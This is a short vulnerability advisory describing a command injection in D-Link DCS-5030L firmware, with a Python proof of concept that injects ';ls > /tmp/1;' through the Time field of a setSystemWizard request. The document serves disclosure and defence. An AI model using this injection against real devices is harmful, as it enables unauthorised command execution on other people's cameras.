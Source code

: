 # command injection

## D-LINK DCS-5030L

version: V1.07.02

## Description:

There is a command injection in alphapd/sub_43545C

## Source:

you may download it from : [legacyfiles.us.dlink.com - /DCS-5030L/REVA/FIRMWARE/](http://legacyfiles.us.dlink.com/DCS-5030L/REVA/FIRMWARE/)

## Analyse:

![](1.png)

If v13 equal zero and v36 equal 1, get into. Look into websGetVarCheck ,we could know that it will return 0 when the keyword's value is null.

![](2.png)

If DateTimeMode's value equal '1' ,finally will call doSystem,causes command injection via parameter v38

## POC

```
url = "http://192.168.1.13/setSystemWizard"
headers = {
    'Host': '192.168.1.13',
    'Authorization': 'Basic base64(admin:password)',
    'Connection': 'close',
    'Content-Type': 'application/x-www-form-urlencoded'
}
data = {
    'ReplySuccessPage':'advanced.htm',
    'ReplyErrorPage':'errradv.htm',
    'Time':';ls > /tmp/1;',
    'DateTimeMode':'1',
    'ConfigReboot':'No'
}
r = requests.post(url, data=data,headers=headers)
```
